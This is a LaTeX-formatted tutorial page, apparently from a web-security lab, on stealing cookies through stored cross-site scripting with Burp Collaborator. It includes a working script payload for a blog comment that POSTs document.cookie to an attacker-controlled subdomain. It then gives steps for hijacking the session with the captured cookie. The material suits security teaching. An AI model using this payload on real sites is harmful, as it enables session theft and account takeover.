 \documentclass{article}
\begin{document}
\section*{Exploiting cross-site scripting examples explainging}
\textbf{\underline{Using Burp Suite Collaborator to Steal Cookies}}
\begin{enumerate}
\item Using Burp Suite Professional, go to the \textbf{Collaborator tab}
\item Click \texttt{"Copy to clipboard"} to copy a unique Burp Collaborator payload to your clipboard
\item Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
\begin{lstlisting}[frame=single]
<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN',
{ method: 'POST', mode: 'no-cors', body: document.cookie }); </script>
\end{lstlisting}
\item This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server
\item Go back to the Collaborator tab, and click \texttt{"Poll now"}. You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again
\item Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator
\end{enumerate}

\underline{How This Attack Works:}
\begin{itemize}
\item The malicious script executes in the victim's browser when they view the compromised page
\item \texttt{fetch()} API sends an HTTP POST request to the attacker-controlled Collaborator server
\item \texttt{document.cookie} contains the victim's session cookies
\item \texttt{mode: 'no-cors'} allows the request to be sent despite cross-origin restrictions
\end{itemize}
\end{document}
